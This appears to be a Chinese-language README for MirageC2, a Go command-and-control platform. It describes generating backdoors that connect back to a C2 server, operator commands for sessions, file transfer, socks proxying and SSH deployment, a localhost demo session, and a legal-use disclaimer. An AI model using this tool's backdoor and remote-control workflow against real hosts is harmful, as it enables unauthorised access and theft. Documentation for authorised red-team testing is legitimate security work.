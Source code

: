 # MirageC2
一款基于golang开发的C2平台，在后续的开发中，将陆续完善其功能。

# 安装方式
1. 在服务端，您的PC需要具备[golang](https://go.dev)的运行环境，用于生成木马。
2. 安装完毕后，运行run.bat或者run.sh会自动帮您安装服务端所需的库环境。

# 使用方式
本程序中使用到的所有的模块，例如创建后门、创建ssh、创建socks等都在您的电脑上进行，所以第一次运行这些指令的时候需要花上一定的时间，请耐心等待。

1. 运行可执行程序打开MirageC2服务器端。
```
> help:	输出帮助信息。
> create: 	通过Create参数来生成指定的Shell。例子: create <windows/linux/darwin> <C2IP:C2Port> <Save Path>
            [!] 注意如果使用create功能，您必须保证Server端拥有golang的运行环境。
> kill:		杀死指定的job或者session。例子：kill job <id>
> listen:  	在本地设置侦听的端口。例子: listen 127.0.0.1:8888
> show: 	[jobs,sessions]查看侦听的端口以及能够命令控制的会话。例如：show sessions
> session:	进入到指定会话中进行命令执行。例子: session <id>
```

2. Session会话中支持的指令。
```
> help:        输出帮助信息。
> show:        查看当前session中命令执行的列表。
> upload:      上传文件至目标服务器，例子：upload <LocalPath> <RemotePath>
> download:    下载目标服务器文件至本地，例子：download <RemotePath> <LocalPath>
> socks:       1. 部署代理功能，例子：socks <ReverseServerIP> <ServerPort> <ForwardPort>
               2. 控制目标主机连接代理服务器，例子：socks connect <ReverseServerIP>:<ServerPort>
> ssh:         1. 部署SSH功能，例子：ssh install
               2. 连接目标主机的SSH：ssh connect <SSHServerIP>
```

3. 使用案例
```
Mirage Control > listen 127.0.0.1:8888
[+] Jobs Set: listen ip 127.0.0.1:8888

Mirage Control > create darwin 127.0.0.1:8888 mirage
[+] 已经成功输出后门程序至指定的目录！
[!] 如果您还未进行侦听，请运行：listen 127.0.0.1:8888

Mirage Control >  
[+] Sessions 1 Online: 127.0.0.1:52056 -> 127.0.0.1:8888

Mirage Control > show sessions
[*] Job ID: "1", Client IP: "127.0.0.1:52057", Shell User: "deepmountains", Platform: "darwin", ProcessName: "mirage"

Mirage Control > session 1

Mirage Control -> Session1 > whoami
[+] Command ID: 0 
[-+] Result: --------------- 
deepmountains
[-+] Result: ---------------
Mirage Control -> Session1 > 
```

# 免责声明
本工具仅供合法用途使用，旨在帮助用户测试和评估其自身系统的安全性，以发现潜在漏洞并采取适当的补救措施。使用本工具前，您需仔细阅读并同意以下免责声明：
1. 合法使用：本工具应仅在您拥有合法授权的系统或网络上使用。任何在未经授权的情况下使用本工具对他人系统进行测试的行为，均被视为违法，并可能导致刑事或民事责任。
2. 责任限制：使用本工具所产生的一切后果由用户自行承担。开发者不对因使用本工具造成的任何直接或间接损失负责，包括但不限于系统崩溃、数据丢失或服务中断。
3. 禁止恶意用途：严禁将本工具用于任何形式的恶意活动，包括但不限于黑客攻击、数据窃取、破坏系统或绕过安全措施等。
4. 知法守法：用户需确保其使用行为符合所在国家和地区的法律法规。若因用户的非法使用行为引发任何法律纠纷，开发者概不负责。
5. 技术支持：本工具为“按现状”提供，开发者不保证其适用于任何特定用途或场景，也不承诺提供技术支持或更新。
